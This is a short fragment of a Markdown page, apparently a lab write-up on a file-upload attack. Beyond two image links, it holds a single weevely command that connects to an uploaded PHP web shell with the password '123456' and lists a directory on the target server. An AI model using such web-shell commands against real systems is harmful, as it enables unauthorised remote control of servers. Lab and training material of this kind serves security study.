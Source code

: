 ![73334b963dd68686cff47614932d3415.png](../../images/817e83dd54f74062bf5f0fc8998e0de0.png)

```
 weevely http://upload.farmsec.com/upload/farmsec.php 123456 dir
```

![5ef03d4c759af4fa1305bf4a80b880e3.png](../../images/d10ae428674847cb93be129b9419d8c7.png)
